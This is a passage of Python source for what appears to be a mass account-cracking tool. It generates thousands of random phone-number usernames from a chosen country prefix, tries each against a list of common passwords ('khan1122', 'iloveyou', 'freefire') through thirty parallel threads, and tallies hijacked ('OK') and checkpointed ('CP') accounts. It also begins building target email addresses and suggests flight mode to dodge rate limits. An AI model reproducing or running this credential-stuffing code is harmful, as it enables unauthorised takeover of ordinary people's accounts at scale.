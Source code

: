                         tl = str(len(user))
                        print(' Total account : \033[1;32m'+tl)
                        print(f'\033[1;37m Choice code ..:\033[1;32m '+code)
                        print(f'\033[1;37m \x1b[38;5;208mUSE FLIGHT MODE FOR SPEED UP\033[1;97m')
                        linex()
                        for psx in user:
                                ids = code+psx
                                passlist = [psx,ids,'khankhan','khan1122','khan12345','khan1234','khan12','khan786','khan123','khan123456','khankhan123','786786']
                                Aking.submit(rndm,ids,passlist)
                print('\033[1;37m')
                linex()
                print(' The process has completed')
                print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))
                linex()
                input(' Press enter to back ')
                os.system('python bht.py')
def bd():
                user=[]
                clear()
                print('\033[1;31m Code example: 016,017,018,019')
                code = input('\033[1;37m put code: ')
                try:
                        limit = int(input('\033[1;31m example: 2000, 3000, 5000, 10000\n\033[1;37m put limit: '))
                except ValueError:
                        limit = 5000
                for nmbr in range(limit):
                        nmp = ''.join(random.choice(string.digits) for _ in range(8))
                        user.append(nmp)
                with tred(max_workers=30) as Aking:     
                        clear()
                        tl = str(len(user))
                        print(' Total account : \033[1;32m'+tl)
                        print(f'\033[1;37m Choice code ..:\033[1;32m '+code)
                        print(f'\033[1;37m \x1b[38;5;208mUse flight mode for speed up\033[1;97m')
                        linex()
                        for psx in user:
                                ids = code+psx
                                passlist = [psx,ids,'Bangladesh','bangladesh','i love you','iloveyou','free fire','freefire']
                                Aking.submit(rndm,ids,passlist)
                print('\033[1;37m')
                linex()
                print(' The process has completed')
                print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))
                linex()
                input(' Press enter to back ')
                os.system('python bht.py')
def gmail():
                os.system('rm -rf .re.txt')
                clear()
                print('\033[1;37m example: muhammad, ali, sajjad, faizan\033[1;97m')
                linex()
                first = input(' Put first name: ')
                linex()
                print('\033[1;37m example: khan, ahmad, ali \033[1;97m')
                linex()
                last = input(' Put last name: ')
                linex()
                print(' Example: @gmail.com , @yahoo.com etc...')
                linex()
                domain = input(' domain: ')
                linex()
                try:
                        limit=int(input(' Put limit: '))